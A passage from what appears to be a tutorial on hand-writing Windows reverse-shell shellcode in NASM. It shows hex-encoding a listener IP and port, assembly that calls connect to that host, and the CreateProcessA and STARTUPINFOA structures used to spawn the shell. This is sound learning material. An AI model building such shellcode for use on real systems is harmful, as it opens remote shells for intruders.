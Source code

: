 Again we'll be push our parameters in reverse, starting with creating a pointer to our our IP address and port. To figure out the address in hex you can simply break each octect down, reverse the order of the octects and convert to hex. ie: 128 = 80, 47 = 2f, 168 = a8, 192 = c0. Thus we'll push 802fa8c0. Same concept for the port. 4444 = 115c, reverse to 5c11.


```nasm
push 0x802fa8c0		; 192.168.47.128
push word 0x5c11	; port 4444
xor ebx, ebx		
add bl, 2
push word bx		
mov edx, esp		; pointer for SockAddr
push byte 16		; AddrLen - 16
push edx		; pSockAddr
push esi		; saved socket
mov ebx, 0x754e5ee0	; connect - Win10 1803
call ebx
```

Finally is CreateProcessA, and boy is it a doozy. Let's see what Microsoft has to say about it's [structure](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa).

```
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

Along with this we also need to provide a pointer for StartupInfo which it's structure is defined [here](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/ns-processthreadsapi-_startupinfoa).

```
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
}
```
